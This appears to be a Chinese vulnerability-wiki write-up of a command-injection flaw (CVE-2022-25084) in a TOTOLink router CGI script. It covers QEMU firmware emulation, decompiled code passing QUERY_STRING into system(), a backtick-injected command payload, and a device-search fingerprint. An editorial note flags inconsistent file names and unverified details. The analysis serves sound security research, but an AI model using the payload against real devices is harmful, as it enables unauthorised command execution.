









# TOTOLink 多个设备 download.cgi 远程命令执行漏洞 CVE-2022-25084

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：TOTOLINK未明确型号
- 本文讨论：CVE-2022-25084 QUERY_STRING命令注入
- 版本、权限与配置前提：无型号/固件范围或认证前提；提供QEMU环境
- 资料类型：固件仿真与命令注入分析；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 标题download.cgi、分析downloadFile.cgi、请求downloadFlile.cgi三种拼法冲突
- 无固件下载链接/哈希；宿主tap和来宾相同IP、声称来宾执行scp自身复制说明不清
- 核心getenv-sprintf-system证据清晰但缺原披露和补丁

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- 真实文件名、CVE映射、仿真网络及固件范围待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

TOTOLink 多个设备 download.cgi文件存在远程命令执行漏洞，攻击者通过构造特殊的请求可以获取服务器权限

## 漏洞影响

```
TOTOLink 多个设备
```

## 网络测绘

```
"totolink"
```

## 漏洞复现

下载路由器固件



使用binwalk分解固件



查看分解出来的文件



使用qemu搭建路由器

```
#set network
sudo brctl addbr virbr2
sudo ifconfig virbr2 192.168.6.1/24 up
sudo tunctl -t tap2
sudo ifconfig tap2 192.168.6.11/24 up
sudo brctl addif virbr2 tap2

qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1" -netdev tap,id=tapnet,ifname=tap2,script=no -device rtl8139,netdev=tapnet -nographic
```

创建后在qemu里执行命令启动路由器

```
ifconfig eth0 192.168.6.11 up 
scp -r squashfs-root/ root@192.168.6.11:/root/    	
chroot ./squashfs-root/ /bin/sh
touch /var/run/lighttpd.pid
./bin/lighttpd -f ./lighttp/lighttpd.conf -m ./lighttp/lib
```

注意 `lighttpd.conf` 文件需要修改 `server.pid-file` 参数



启动后访问路由器页面



我们找到需要分析的文件目录 `squashfs-root/web_cste/cgi-bin`



分析 cgi文件 `downloadFile.cgi`



我们注意到其中的system执行命令

```
pcVar1 = getenv("QUERY_STRING");
memset(acStack1424,0,0x200);
memset(acStack912,0,0x200);
sprintf(acStack1424,"echo QUERY_STRING:%s >/tmp/download",pcVar1);
system(acStack1424);
```

其中 getenv 从请求Url中获取参数,传参给pcVar1，再通过下面的sprintf 赋值给 acStack1424 使用 system函数 进行命令执行



我们构造请求包控制 QUERY_STRING 参数来进行恶意命令执行

```
/cgi-bin/downloadFlile.cgi?payload=`ls>../cmd.txt`
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
